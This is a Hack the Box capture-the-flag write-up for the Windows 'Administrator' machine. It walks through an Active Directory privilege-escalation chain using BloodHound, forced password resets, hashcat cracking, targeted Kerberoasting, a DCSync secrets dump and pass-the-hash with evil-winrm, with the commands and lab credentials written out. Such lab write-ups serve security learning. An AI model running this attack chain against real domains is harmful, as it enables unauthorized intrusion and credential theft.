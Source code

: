 # Administrator

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan
2. Given olivia's credentials, run bloodhound to gather AD info

	```sudo bloodhound-python -d administrator.htb -u olivia -p ichliebedich -ns [IP] -c all```

4. load bloodhound info
5. bloodhound finds that olivia has GenericAll privs over michael

![image](https://github.com/user-attachments/assets/465491ec-fada-4fb5-93a8-c87657433cbe)

5. change michael's password
	
 	```net rpc password "michael" -U "administrator.htb"/"olivia" -S "[IP]"```

![image](https://github.com/user-attachments/assets/2b513753-0287-4187-87ad-8c5822921a5b)

6. michael has ForceChangePassword permission over benjamin

![image](https://github.com/user-attachments/assets/908af74c-ab83-4ecd-841c-7a0a2424dda1)

7. change benjamin's password 
	
 	```net rpc password "benjamin" -U "administrator.htb"/"michael" -S "[IP]"```

![image](https://github.com/user-attachments/assets/075d1086-566b-4d1a-aaa8-3410f46b5664)

8. benjamin can login to ftp, get Backup.psafe3 file

![image](https://github.com/user-attachments/assets/4788173f-4ac8-4391-ae25-0f660d10286f)

9. use hashcat to crack password on psafe3
	
 	```hashcat -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt```

10. reveals password for psafe3 file is `tekieromucho`
11. opening the psafe3 file reveals 3 credentials:
	1. alexander
	2. emily
	3. emma
12. bloodhound shows the emily has GenericWrite privs over ethan

![image](https://github.com/user-attachments/assets/efa95615-b1f6-49df-9c9f-52138705e2c6)

13. before doing kerberoast attack, need to fix clock skew
	1. On actual machine, not VM, go to cmd and cd into this folder `C:\Program Files\Oracle\VirtualBox`
	2. run this command `VBoxManage setextradata "VM name" "VBoxInternal/Devices/VMMDev/0/Config/GetHostTimeDisabled" 1`
	3. then, on Kali VM, run `sudo rdate -n [IP]`
14. now can do a targeted kerberoast attack on ethan using emily's credentials
	
 	```targetedKerberoast.py --dc-ip [IP] -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb```

![image](https://github.com/user-attachments/assets/457a3b7e-2e71-48e6-8d52-8c4f11422798)

15. this reveals ethan's password is `limpbizkit`

![image](https://github.com/user-attachments/assets/fbdf1e5a-0096-4f89-a890-97fc07a89c1b)

16. ethan has DCSync permission over Administrator.htb. This means ethan is local admin so can do secretdump
	
 	```secretsdump.py administrator.htb/ethan:limpbizkit@[IP]```

![image](https://github.com/user-attachments/assets/fdfcde64-d5a7-40ad-9af6-b515e73e8769)

![image](https://github.com/user-attachments/assets/2967cec7-9da7-4d2f-8dec-c0916ff50ca5)

17. this gives us Administrator hash so can do PtH with evil-winrm 
	
 	```evil-winrm -i [IP] -u administrator -H [HASH]```

![image](https://github.com/user-attachments/assets/27ddb48f-62ec-49d8-9ba0-a104cd4df325)

18. gives us admin shell and rooted!
